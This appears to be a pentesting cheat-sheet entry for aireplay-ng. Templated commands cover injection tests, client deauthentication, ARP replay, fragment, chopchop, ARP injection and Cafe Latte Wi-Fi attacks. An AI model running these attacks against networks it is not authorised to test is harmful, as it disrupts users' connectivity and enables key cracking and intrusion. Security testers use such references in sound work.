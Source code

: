 # aireplay-ng
% wifi, aireplay-ng
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
generate wifi traffic. The device must be set to monitor mode and channel must be set.
```

## _repo
```
```

## _doc
```
https://www.aircrack-ng.org/doku.php?id=aireplay-ng
```

## _install
```
```

## Injection test
```bash
sudo aireplay-ng --test <wlan_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> <wlan_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> -a <bssid> <wlan_interface|wmon> 
```


## Deauthentication
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --deauth <count|5> -a <bssid> -c <wlan_station_mac> <wlan_interface|wmon>
```

## ARP capture / replay attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --arpreplay -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## fragment attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --fragment -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```


## KoreK chopchop attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --chopchop -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## ARP injection
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --interactive -r <forged_arp_fle>.cap -h <bssid> <wlan_interface|wmon>
```

## Cafe latte attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```